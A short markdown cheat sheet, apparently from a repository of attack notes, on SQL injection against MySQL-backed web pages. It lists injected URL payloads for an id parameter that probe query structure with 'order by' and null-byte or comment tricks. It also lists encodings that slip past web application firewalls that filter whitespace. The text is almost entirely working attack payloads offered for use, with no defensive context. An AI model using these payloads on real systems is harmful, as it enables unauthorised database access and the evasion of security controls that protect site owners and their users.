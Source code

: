 ## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error.  

```http://domain.com/index.php?id=1' order by 1;%00-- -```   no error  
```http://domain.com/index.php?id=1' order by 1;%60-- - ```  no error  
```http://domain.com/index.php?id=1' order by 1%60-- - ```  no error  
```http://domain.com/index.php?id=1'%23/* order by 1-- - ```  no error  
```http://domain.com/index.php?id=1') order by 1-- - ```  no error  


## Whitespace WAF-based bypass

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:  

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
```http://domain.com/index.php?id=1' order by 1-- -```  
with  
```http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-```  
or with  
```http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-```  
and so on...
